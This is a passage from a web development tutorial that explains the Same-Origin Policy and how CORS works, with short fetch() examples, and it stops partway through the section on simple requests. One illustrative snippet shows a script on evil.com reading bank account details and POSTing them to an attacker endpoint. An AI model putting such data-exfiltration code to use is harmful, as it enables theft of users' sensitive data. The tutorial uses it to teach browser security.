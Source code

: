 In this example:

* The first `fetch()` goes to `/api/products` which resolves to `https://mystore.com/api/products` (same origin)
* The second `fetch()` tries to reach `https://api.external-service.com/data` (different origin) and gets blocked

### Why This Security Model Exists

The Same-Origin Policy prevents malicious websites from:

1. **Reading sensitive data** from other websites you're logged into
2. **Making unauthorized requests** on your behalf to other services
3. **Stealing authentication tokens** from other applications

Consider this scenario without Same-Origin Policy:

```html
<!-- Malicious website at https://evil.com -->
<script>
    // Without CORS protection, this could steal your data
    fetch('https://yourbank.com/account-details')
        .then(response => response.json())
        .then(data => {
            // Send your bank details to attacker's server
            fetch('https://evil.com/steal-data', {
                method: 'POST',
                body: JSON.stringify(data)
            });
        });
</script>
```

## How CORS Works: The Technical Mechanics

CORS is the mechanism that allows servers to **selectively relax** the Same-Origin Policy by telling browsers which cross-origin requests are permitted.

### Simple vs. Preflight Requests

CORS handles requests differently based on their complexity:

#### Simple Requests

These requests are sent directly and include specific CORS headers:

```javascript
// This is a "simple" request
fetch('https://api.example.com/data', {
    method: 'GET',
    headers: {
        'Content-Type': 'application/json'
    }
});
```
